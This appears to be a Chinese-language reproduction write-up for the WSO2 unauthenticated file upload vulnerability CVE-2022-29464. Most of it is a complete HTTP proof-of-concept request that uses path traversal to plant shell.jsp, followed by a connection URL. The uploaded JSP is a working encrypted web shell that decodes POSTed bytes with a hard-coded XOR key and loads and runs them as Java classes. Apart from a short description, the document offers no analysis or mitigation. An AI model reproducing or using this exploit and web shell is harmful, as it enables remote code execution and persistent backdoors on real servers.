



# CVE-2022-29464（WSO2文件上传漏洞）

<div style="text-align: right;">

date: "2023-01-09"

</div>

## 漏洞描述

- WSO2文件上传漏洞（CVE-2022-29464）是Orange Tsai发现的WSO2上的严重漏洞。该漏洞是一种未经身份验证的无限制任意文件上传，允许未经身份验证的攻击者通过上传恶意JSP文件在WSO2服务器上获得RCE。

## 漏洞原理

- 暂无

## 漏洞复现

访问URL：`https://example.com:9443/carbon/admin/login.jsp`



构建POC，相应包出现一串数字即上传成功

```
POST /fileupload/toolsAny HTTP/2
Host: example.com:9443
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 2291
Content-Type: multipart/form-data; boundary=4ef9f369a86bfaadf5ec3177278d49c0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36

--4ef9f369a86bfaadf5ec3177278d49c0
Content-Disposition: form-data; name="../../../../../../../../repository/deployment/server/webapps/authenticationendpoint/shell.jsp"; filename="../../../../../../../../repository/deployment/server/webapps/authenticationendpoint/shell.jsp"

<%@page import="java.util.*,java.io.*,javax.crypto.*,javax.crypto.spec.*" %>
<%!
private byte[] Decrypt(byte[] data) throws Exception
{
     byte[] decodebs;
        Class baseCls ;
                try{
                    baseCls=Class.forName("java.util.Base64");
                    Object Decoder=baseCls.getMethod("getDecoder", null).invoke(baseCls, null);
                    decodebs=(byte[]) Decoder.getClass().getMethod("decode", new Class[]{byte[].class}).invoke(Decoder, new Object[]{data});
                }
                catch (Throwable e)
                {
                    baseCls = Class.forName("sun.misc.BASE64Decoder");
                    Object Decoder=baseCls.newInstance();
                    decodebs=(byte[]) Decoder.getClass().getMethod("decodeBuffer",new Class[]{String.class}).invoke(Decoder, new Object[]{new String(data)});

                }
    String key="e45e329feb5d925b";
	for (int i = 0; i < decodebs.length; i++) {
		decodebs[i] = (byte) ((decodebs[i]) ^ (key.getBytes()[i + 1 & 15]));
	}
	return decodebs;
}
%>
<%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return
        super.defineClass(b,0,b.length);}}%><%if (request.getMethod().equals("POST")){
            ByteArrayOutputStream bos = new ByteArrayOutputStream();
            byte[] buf = new byte[512];
            int length=request.getInputStream().read(buf);
            while (length>0)
            {
                byte[] data= Arrays.copyOfRange(buf,0,length);
                bos.write(data);
                length=request.getInputStream().read(buf);
            }
            /* 取消如下代码的注释，可避免response.getOutputstream报错信息，增加某些深度定制的Java web系统的兼容性
            out.clear();
            out=pageContext.pushBody();
            */
        new U(this.getClass().getClassLoader()).g(Decrypt(bos.toByteArray())).newInstance().equals(pageContext);}
%>
--4ef9f369a86bfaadf5ec3177278d49c0--
```



连接url：`https://example.com:9443/authenticationendpoint/shell.jsp`



